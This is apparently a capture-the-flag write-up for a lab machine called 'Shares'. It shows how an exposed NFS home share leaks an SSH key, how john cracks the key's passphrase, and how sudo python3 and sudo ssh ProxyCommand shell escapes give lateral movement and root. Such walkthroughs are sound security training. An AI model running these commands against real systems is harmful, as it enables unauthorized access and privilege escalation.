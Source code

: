 # Shares

## Enumeration

### nmap:

```
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack vsftpd 3.0.3

80/tcp open http syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Pet Shop
| http-methods:
|_ Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)

111/tcp open rpcbind syn-ack 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
| 100000 3,4 111/udp6 rpcbind
| 100003 3 2049/udp nfs
| 100003 3 2049/udp6 nfs
| 100003 3,4 2049/tcp nfs
| 100003 3,4 2049/tcp6 nfs
| 100005 1,2,3 33317/tcp6 mountd
| 100005 1,2,3 47026/udp mountd
| 100005 1,2,3 52045/tcp mountd
| 100005 1,2,3 56412/udp6 mountd
| 100021 1,3,4 33401/tcp nlockmgr
| 100021 1,3,4 41275/tcp6 nlockmgr
| 100021 1,3,4 44254/udp nlockmgr
| 100021 1,3,4 60886/udp6 nlockmgr
| 100227 3 2049/tcp nfs_acl
| 100227 3 2049/tcp6 nfs_acl
| 100227 3 2049/udp nfs_acl
|_ 100227 3 2049/udp6 nfs_acl

2049/tcp open nfs_acl syn-ack 3 (RPC #100227)
Service Info: OS: Unix

27853/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 97:93:e4:7f:41:79:9c:bd:3d:d8:90:c3:93:d5:53:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCyk8rqOZBxSEXCu+mZCgIQOiHcAg/2ivCFVqGH0ehzvIN3eFZ5jll3zDyKehhaSyYeouoQZbpUk4fmTEqPFdUGjOzXhUhf6pQ0atKx3hms+b5ZLaCL2UjburequfIHCfDCbt6Wbj7dozIMmQ4+qjPQqBkUci7DjCTA/LbxNPL47hoC+3vAvCgRxAK6Yq4tUlil3eSgHX9EeJSxJQpDShPjTZ384+DUMx3VJbXFNBtxsUblPeykzrM18Hill3Yy/D4L9ZW0PJ5P3W+cFQuHc3RWLXCY6S1WmHDxGcI2UA3f2UaBDn2zm3cmgt3yKWTuqY98NlSh880AzmAcS6HpDlY/
|   256 11:66:e9:84:32:85:7b:c7:88:f3:19:97:74:1e:6c:29 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDF3clGPfC6R84UaHxAMoGIYn58Njt+Dth8rsl/Aa8W9SXquC3L+TGPb5dVRArkmCgta+moG16PhstNUHlyNVbA=
|   256 cc:66:1e:1a:91:31:56:56:7c:e5:d3:46:5d:68:2a:b7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGKX5ZbEhRnQU7woPnhhFMtk+c0HJcj0T3xPfAWHTBH9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


36549/tcp open  mountd  syn-ack 1-3 (RPC #100005)

44829/tcp open  nlockmgr syn-ack 1-4 (RPC #100021)

57327/tcp open  mountd  syn-ack 1-3 (RPC #100005)

```

There is a website running, a petshop, and a nfs server.
There is not much information on the website and ftp doesnt allow anonymous login, we can try to enumerate the nfs server.

```
$showmount -e 172.31.1.7

Export list for 172.31.1.7:
/home/amir *.*.*.*
```

Now we know there is a user called amir, and we can try to mount the amir folder on our machine

```
mount -t nfs 172.31.1.7:home/amir /mnt/TempNFS

drwxrwxr-x 5 nair0lf32 docker 4096  2 avril  2020 .
drwxr-xr-x 1 root      root     14 27 oct.  11:41 ..
-rw-r--r-- 1 nair0lf32 docker    0  2 avril  2020 .bash_history
-rw-r--r-- 1 nair0lf32 docker  220  4 avril  2018 .bash_logout
-rw-r--r-- 1 nair0lf32 docker 3786  2 avril  2020 .bashrc
drw-r--r-- 2 nair0lf32 docker 4096  2 avril  2020 .cache
drw-r--r-- 3 nair0lf32 docker 4096  2 avril  2020 .gnupg
-rw-r--r-- 1 nair0lf32 docker  807  4 avril  2018 .profile
drwxrwxr-x 2 nair0lf32 docker 4096  2 avril  2020 .ssh
-rw-r--r-- 1 nair0lf32 docker    0  2 avril  2020 .sudo_as_admin_successful
-rw-r--r-- 1 nair0lf32 docker 7713  2 avril  2020 .viminfo
```

We have access to the .ssh folder with amir's private id_rsa key. We crack that:  
First we use: 

`python2 /usr/share/john/ssh2john.py id_rsa > id_rsa.john` 

to get a john formatted hash file, then we run john on the hash file:

```
john -w=/usr/share/wordlists/rockyou.txt id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hello6           (id_rsa)
1g 0:00:00:08 DONE (2021-10-27 11:52) 0.1213g/s 1740Kp/s 1740Kc/s 1740KC/sa6_123..*7¡Vamos!
Session completed


ssh creds:
amir:hello6

```

Now we can ssh as amir using his key...note that ssh is not on port 22

```
ssh amir@172.31.1.7 -i id_rsa -p 27853

amir@shares:/home$ ls
amir  amy
```

There seem to be another user called amy and as amir's folder is empty I guess our user flag is owned by amy.

We check sudo rights for possible lateral movement:

```
$ sudo -l
Matching Defaults entries for amir on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amir may run the following commands on shares:
    (ALL : ALL) ALL
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: /usr/bin/python3
```

And we can. we can run either python or pkexec as amy.
I chose python because I already know how to work with that one. Gotta explore pkexec too later.

```
sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```

And now we are amy. We get User Flag in amy's home folder:  
`cat access.txt`

Now its Privilege Escalation time:

```
amy@shares:/home/amy$ sudo -l
Matching Defaults entries for amy on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amy may run the following commands on shares:
    (ALL) NOPASSWD: /usr/bin/ssh
```

Uh ok amy can run ssh as root? let's ask Gtfobins for help here

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

And Its done, we are root. flag is in the root folder:

` cat system.txt`

And that's it. If you are curious enough remember to try the other way around. and find
other methods to get the flags. by example it seems to be a possible escalation with lxd from amir 'id command' to root.
